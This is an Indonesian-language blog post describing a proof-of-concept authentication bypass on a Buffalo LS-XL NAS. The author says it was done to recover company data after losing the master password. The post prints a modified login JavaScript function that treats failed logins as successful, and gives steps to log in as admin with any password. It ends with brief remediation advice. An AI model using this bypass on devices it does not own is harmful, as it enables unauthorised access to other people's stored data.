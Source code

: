 ```yaml
---
layout: post
title: Pentest NAS Buffalo LS-XL
modified: 2023-01-28T17:00:28+07:00
categories:
description: "Pentest NAS Buffalo LS-XL"
tags: [pentest, exploit, vulnerability, nas]
image:
  background: triangular.png
comments: true
share: true
date: 2023-01-28T17:00:28+07:00
---
```


Singkat cerita saya membutuhkan akses ke NAS buffalo ls-xl ini yang dimana tipe nas ini sudah sangat jadul akses untuk factory reset dan ganti password pun harus punya master aksesnya dan ternyata master aksesnya lupa sempat frustasi karena harus ada penyelamatan data dan data tersebut data penting perusahaan, sudah cek SN pun di official sudah tidak terdaftar sempat berpikir, why? sehingga saya sedikit pengkodean kreatif untuk coba menyelamatkan. Dan ternyata setelah observasi percobaan pentest, NAS memiliki vulnerability dan exploit melalui injeksi langsung devtools.

## Table of contents

- [Table of contents](#table-of-contents)
- [Proof Of Concept](#poc)
- [Remediasi](#remediasi)

## PoC

Berikut tahapan-tahapan nya:

- Buka halaman login NAS LS-XL (via IP)
- Menggunakan DevTools Chrome dan buka pada bagian sources
- Buka file login_utis.js yang berada pada folder authentication

Dan coba modifikasi code dengan membypass fungsi loginSuccess, hanya memodifikasi bagian kode dibawah ini saja :

```shell
function login(f, lang) {
  if(login_lock != 0) {
    return;
  }
login_lock = 1;
var uid = Ext.getCmp('user');
var uid_value = uid.getValue();
var pwd = Ext.getCmp('password');
var pwd_value = pwd.getValue();

f.form.submit({
  url: '/dynamic.pl',
  params: {
    bufaction: 'verifyLogin'
  },
  waitTitle: S('Please Wait...'),
  waitMsg: S('Logging In...'),
  success: function(form, action) {
    var decodedResponse = Ext.decode(action.response.responseText);
    var jsonData = decodedResponse.data;
    loginSuccess(f, action, uid_value, lang);
  },
  failure: function(form, action) {
    loginSuccess(f, action, uid_value, lang);
  }
});
};
```

- Save Ctrl+S
- Lalu login dengan username admin dengan password bebas
- Lalu Reset akun admin dengan password baru

Terdapat keamanan yang buruk pada NAS dalam hal ini dapat mensolusikan penyelamatan data, saya sengaja melakukan ini dan pentest karena terdesak dan data tersebut penting. mohon untuk tidak dicoba-coba untuk digunakan dengan hal yang tidak diinginkan ya saya disini hanya share untuk penyelamatan data saja dan buntu.


## Remediasi

Tidak untuk dicoba-coba segera untuk anda pemilik NAS simpan password dan akun master anda jangan sampai lupa, dan lakukan langsung update patching software terbaru dari official vendor NAS anda.

